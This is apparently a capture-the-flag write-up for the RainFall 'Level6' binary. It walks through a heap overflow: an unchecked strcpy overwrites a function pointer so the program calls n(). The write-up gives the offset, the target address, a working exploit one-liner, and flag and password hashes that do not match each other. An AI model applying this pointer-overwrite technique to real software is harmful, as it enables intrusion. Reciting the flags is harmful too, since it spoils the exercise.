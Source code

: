 # **Level6**

## **Analysis**

**In `main()`:**

```c
// Malloc of a String of length 64
str = (char *)malloc(0x40); // 64
// And just afterward, a malloc for a pointer to function
fct = (void **)malloc(0x4);

// pointer to function `m()` assigned
fct = &m;
// Unprotected `strcpy`
strcpy(str, av[1]);

// Call to the pointer to function which by default is `m()`
fct();
```

**In `m()`:**

Nothing interesting

**In `n()`:**

System call to print the `.pass`

___

## **Exploit**

If we change the pointer to function from `m()` adress -> `n()` adress using the `strcpy()`,
That'll do it

First lets determine the Offset :
```
 ❯ python3 offset.py
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

(gdb) run AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
Starting program: /home/user/level6/level6 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
Program received signal SIGSEGV, Segmentation fault.
0x53535353 in ?? ()

 ❯ python3 offset.py 53
72
```

What's the adress to `n()` ?
```
(gdb) info function
All defined functions:
...
0x08048454  n
0x08048468  m
0x0804847c  main
...
```

So the solution is:
 * (72) Offset of 72 characters
 * (04) Adress of `n()`

```
level6@RainFall:~$ ./level6 $(python -c 'print "\x90" * 72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

___

*Password: d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31*